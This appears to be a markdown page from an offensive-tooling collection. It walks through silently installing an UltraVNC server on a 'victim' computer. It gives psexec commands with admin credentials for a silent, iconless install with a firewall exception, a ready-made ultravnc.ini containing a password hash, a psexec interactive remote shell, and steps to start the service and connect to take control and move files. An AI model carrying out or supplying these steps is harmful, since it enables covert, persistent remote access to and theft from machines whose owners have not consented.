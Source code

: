 # VNC (UltraVNC) Remote Desktop Connectin Server/Client

UltraVNC is an open-source remote-administration/remote-desktop-software utility. The client supports Microsoft Windows and Linux but the server only supports Windows. It uses the VNC protocol to control/access another computer remotely over a network connection.

![UltraVNC](assets/uvnc.jpg "Open source UltraVNC remote desktop client/server")

## Install VNC Server to Victim Computer

You can remotely view, control or transfer files the victim computer using the UltraVNC tool. For this, follow the steps below.

### Step 1: Download UltraVNC setup

Copy current version of ultravnc from the website to your computer as **"c:\\uvncsetup.exe"**.

### Step 2: Start installation 

To start silent installation on victim computer run **"uvncsetup.exe"** as remotely using **PsExec.exe** below. The command copy the specified executable (uvncsetup.exe) to the remote system for execution:

`psexec \\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice,stopservice" /DIR="%programfiles%\uvnc"`

The inno setup parameters above allow the installation to complete silently. The installation files will be saved in the **"%program files%\uvnc"** directory on victim computer.

### Step 3: Define new password 

Create the **ultravnc.ini** file with the password defined in the **"%programfiles%\uvnc"** of the victim computer. 
UltraVNC password is "**admin0**" defined in **ultravnc.ini**. The ini file content is below:

> [ultravnc] \
> passwd=56B6ACA18D1BA76008 \
> passwd2=56B6ACA18D1BA76008

Copy the file to **"%programfiles%\uvnc"** folder on victim computer.

### Step 4: Restart the service

Start the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

`psexec \\victim -u admin -p admin0 -h -i cmd.exe`

And run below command over remote shell:

`net start uvnc_service`

### Step 5: Check the installation

Check UltraVNC listen port with netstat 

`netstat -ano | find "5900"`\
`tasklist /fi "pid eq <pid>"`

Run UltraVNC viewer and connect to victim computer. You can control it with mouse/keyboard or download/upload files via UltraVNC's  file manager.

![UltraVNC Viewer](assets/uvnc_viewer.png "UltraVNC Viewer")